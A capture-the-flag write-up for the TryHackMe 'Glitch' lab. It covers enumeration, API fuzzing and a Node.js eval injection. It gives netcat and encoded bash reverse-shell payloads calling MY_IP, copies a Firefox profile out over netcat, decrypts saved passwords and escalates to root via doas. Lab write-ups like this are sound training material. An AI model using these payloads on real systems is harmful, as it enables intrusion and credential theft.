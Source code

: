 # GLITCH

## Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?
```
Machine's IP: 10.10.192.225
```

**NMAP**

Firstly, once the machine is up we can begin with an active enumeration using nmap
```bash
# Nmap 7.95 scan initiated Fri Oct 17 10:07:00 2025 as: /usr/lib/nmap/nmap --privileged -A -oN nmap.txt -T4 -Pn -p- 10.10.192.225
Nmap scan report for 10.10.192.225
Host is up (0.051s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%), Google Android 10.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:google:android:10 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   50.08 ms 10.9.0.1
2   51.15 ms 10.10.192.225

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 17 10:18:07 2025 -- 1 IP address (1 host up) scanned in 667.43 seconds
```

We can notice that there's a single service, an nginx server running a website on version 1.14.0 unexploitable if we check using searchsploit.

**GOBUSTER**

As there's a website we will start by doing a directory fuzzing with gobuster with the following
```bash
gobuster dir -u http://10.10.192.225/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40 -x php
```
We notice that gobuster has found 3 folders but one more interesting than the others : **/secret**

Accessing to /secret tells us that the access is forbidden and if we check our cookies we can notice we have one empty cookie

Now let's have a look at the mainpage source code, we notice that an api is called to **/api/access** but it somewhat fails so we can try calling the api by ourself

Calling the api with a GET requests such as our browser gives us a base64 string (decoding it will give us the first THM flag)

Let's inject this decoded string as our cookie and bingo we can access to /secret and the most important thing: **the mainpage is a different one**!

Inspecting the mainpage can tell us another endpoint of the api is called : **/api/items** or we can also fuzz the api with something like
```bash
gobuster dir -u http://10.10.192.225/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40
```

Using the GET method to the api gives nothing interesting so i'm wondering what happen if we use the POST one with something like
```bash
curl -X POST http://10.10.192.225/api/items
```
By doing that the api answer us with a weird message "bug in the matrix" so maybe the api needs an argument? We can bruteforce args with ffuf for example:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://glitch.thm/api/items?FUZZ=test -X POST
```
BINGO we have an arg called **cmd**

Let's try an random POST request at /api/items?cmd=
```bash
curl -X POST http://glitch.thm/api/items?cmd=tututututu
```
With something invalid we have a nodejs error telling us the api IS a nodejs one so we can maybe try a [nodejs eval rce](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)
```bash
curl -X POST http://glitch.thm/api/items?cmd=require("child_process").exec('nc MY_IP 9005 -e /bin/sh')
```
```bash
girsh listen -p 9005
```
Here using girsh to get an interactive unbreakable shell we have no answer so we can try another reverse shell like a bash one url encoding it such as
```bash
POST /api/items?cmd=require("child_process").exec('%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%35%4c%6a%51%75%4d%54%63%32%4c%7a%6b%77%4d%44%55%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68')
```
reverse shell!!!

**PRIVESC**

We can firstly start by listing our sudo rights without any success but we can also list every bins that has the SUID perm set with
```bash
find / -type f -perm -04000 -ls 2>/dev/null
/usr/local/bin/doas
```
We here have the doas command so we can get its configuration file
```bash
cat /usr/local/etc/doas.conf
```
By reading at the file we notice that a rule is set that specify if we are **v0id** we can execute command with doas as **root** so we need to be v0id to be root (we are currently user)

Let's have a look to what's inside our directory because why not?

At first it seems empty but there is an hidden folder called **.firefox**, this file correspond to a firefox profile maybe containing passwords saved

We can try using firefox_decrypt to extract passwords so let's upload the folder to our machine
```bash
# our machine
nc -lnvp 9010 | tar -xf - .
```
```bash
# reverse shell
tar -cf . - | nc MY_IP 9010
```
Let's wait a bit and now we all the files and the folder

Now let's extract the passwords with [firefox_decrypt](https://github.com/unode/firefox_decrypt)
```bash
python firefox_decrypt.py /home/kali/workspace/labs/thm/easy/Glitch/firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
$ 2

Website:   https://glitch.thm
Username: 'v0id'
Password: '[redacted]'
```        
Now we have the password of v0id we can log as v0id with
```bash
su - v0id
```

Let's lastly get a shell as root using doas
```bash
v0id@ubuntu:~$ doas -u root bash -p
Password: [redacted]
root@ubuntu:/home/v0id# 
```
